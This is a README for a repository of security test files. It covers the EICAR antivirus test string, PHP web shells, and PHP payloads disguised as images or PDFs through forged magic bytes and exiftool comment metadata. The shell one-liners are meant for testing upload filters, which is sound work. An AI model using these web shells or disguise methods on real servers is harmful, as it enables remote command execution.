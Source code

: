 # security-test-files
Different files created to help with security testing applications.

> [!IMPORTANT]
> The EICAR files will probably trigger your anti-virus software. These are however non-malicious files. Read more below.

### What is EICAR?
[EICAR Anti-Virus Test File](https://www.eicar.org/download-anti-malware-testfile/) is a file made for testing anti-virus software without using real malware. The EICAR test file is a bening file that gets flagged as a virus by anti-virus software.

The file is a legitimate DOS program that consists of 68 printable ASCII characters. It will print the message "EICAR-STANDARD-ANTIVIRUS-TEST-FILE!" if run.

### Files and instructions how to create them yourself

#### eicar-excel-document.xlsx
- Create a new document in Excel and navigate to -> Insert -> Text -> Object -> Create from File and attach EICAR text file

#### eicar-text-document.txt
- Create a new text document and paste the following string to it
- `X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*`

#### eicar-word-document.docx
- Create a new document in Word and navigate to -> Insert -> Object -> Create from File and attach EICAR text file

#### php-shell.php
- PHP file with a PHP shell in it
- `echo '<?php system($_REQUEST['cmd']); ?>' >> php-shell.php`

#### php-shell-added-to-end-png-magic-bytes.php
- added PHP shell payload to the end of png file
- `echo '<?php system($_REQUEST['cmd']); ?>' >> regular-png-file.png && mv regular-png-file.png php-shell-added-to-end-png-magic-bytes.php`

#### php-shell-directly-in-image.png
- PHP shell added directly to image
- `echo '<?php system($_REQUEST['cmd']); ?>' >> php-shell-directly-in-image.png`

#### php-shell-with-jpeg-magic-bytes.php
- PHP shell file with added jpeg magic bytes
- Changed the first bytes to these using hexedit: ffd8 ffdb

#### php-shell-with-pdf-magic-bytes.php
- PHP shell file with added pdf magic bytes
- Changed the first bytes to these using hexedit: 2550 4446 2d

#### php-shell-with-php-payload-in-png-comment-metadata-png-magic-bytes.php
- PHP shell payload inserted into png comment and changed the file to `.php`
- `exiftool -comment='<?php system($_REQUEST['cmd']); ?>' png-file-with-php-payload-in-comment-metadata.png`
- renamed png-file-with-php-payload-in-comment-metadata.png to php-shell-with-php-payload-in-png-comment-metadata-png-magic-bytes.php

#### png-file-with-php-payload-in-comment-metadata.png
- PHP payload added in the metadata comment section
- `exiftool -comment='<?php system($_REQUEST['cmd']); ?>' png-file-with-php-payload-in-comment-metadata.png`

#### regular-excel-document.xlsx
- nothing special, just an excel sheet with some text and `=1+1` calculation

#### regular-pdf-document.pdf
- nothing special, just a pdf file with some text

#### regular-png-file.png
- nothing special, just a png file

#### regular-text-document.txt
- nothing special, just a text document with some text

#### regular-word-document.docx
- nothing special, just a word document with some text
